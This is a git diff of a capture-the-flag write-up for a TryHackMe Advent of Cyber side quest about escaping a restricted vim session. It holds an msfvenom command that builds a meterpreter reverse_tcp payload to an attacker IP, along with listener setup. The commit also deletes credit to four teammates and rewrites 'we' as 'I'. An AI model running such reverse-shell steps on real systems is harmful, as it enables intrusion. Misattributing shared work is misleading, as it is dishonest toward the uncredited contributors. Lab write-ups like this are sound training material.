

Before and after one commit to JoanneBiltz/CTF-Writeups, a Markdown page: 2023_THM_AOC_Side_Quests/frosteau_busy_with_vim/README.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/2023_THM_AOC_Side_Quests/frosteau_busy_with_vim/README.md
+++ b/2023_THM_AOC_Side_Quests/frosteau_busy_with_vim/README.md
@@ -1,6 +1,4 @@
 # Frosteau Busy With Vim (THM Advent of Cyber '23 Side Quest 3 Difficulty: Insane)
-
-This was a team effort with 4 other THM Discord members.
 
 ## Finding the QR Code
 
@@ -88,15 +86,15 @@ Things found within vim:
 -If you exit vim you are kicked out of the connection.
 -You can see the directories inside vim using `:e /` then `:e /directory_name`.
 -Trying to run commands using :! from vim gives an error `Cannot execute shell /tmp/sh`.
--After looking through many files and directories we determined that /tmp/sh was empty and not executable.
+-After looking through many files and directories I determined that /tmp/sh was empty and not executable.
 -There is also a user frosty that has /usr/frosty/sh that is empty but is executable. We might be able to use that to get a shell.
 -If you go to the /home directory you will find the user ubuntu.
--We tried all kinds of shells in vim but didn't have any luck.
--We can set permissions with `:call setfperm("/tmp/sh","rwxrwxrwx")`.
+-I tried all kinds of shells in vim but didn't have any luck.
+-I can set permissions with `:call setfperm("/tmp/sh","rwxrwxrwx")`.
 -`:e /etc/shells` gives us `/usr/busybox/sh`.
 -It seems the 8065 port points to `/usr/frosty/sh`.
 ```
-At this point we decided to try a reverse shell using metasploit in order to get a prompt outside of vim.
+At this point I decided to try a reverse shell using metasploit in order to get a prompt outside of vim.
 ```
 -Create your payload using `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f elf -o payload.elf`.
 -Start your listener in `msfconsole` and use `payload/linux/x64/meterpreter/reverse_tcp`, then `set hosts YOUR_IP`.
@@ -110,20 +108,20 @@ At this point we decided to try a reverse shell using metasploit in order to get
 
 You now have a shell.
 
-Searching for .txt files gives us the third flag, `/root/flag-3-of-4.txt`.
+Searching for .txt files gives you the third flag, `/root/flag-3-of-4.txt`.
 
 
 <p align="left">
   <img height=500 img src=./readme_assets/flag3.PNG/>
 </p>
 
-After a LOT more searching we determined that there must be another docker container we have to access. Doing a process search for dockerd shows us another user besides ubuntu with dockerd, root.
+After a LOT more searching I determined that there must be another docker container we have to access. Doing a process search for dockerd shows you another user besides ubuntu with dockerd, root.
 
 <p align="left">
   <img height=200 img src=./readme_assets/root.PNG/>
 </p>
 
-With this information we were able to find flag 4 and yetikey3.
+With this information I was able to find flag 4 and yetikey3.
 
 <p align="left">
   <img height=500 img src=./readme_assets/files.PNG/>
````
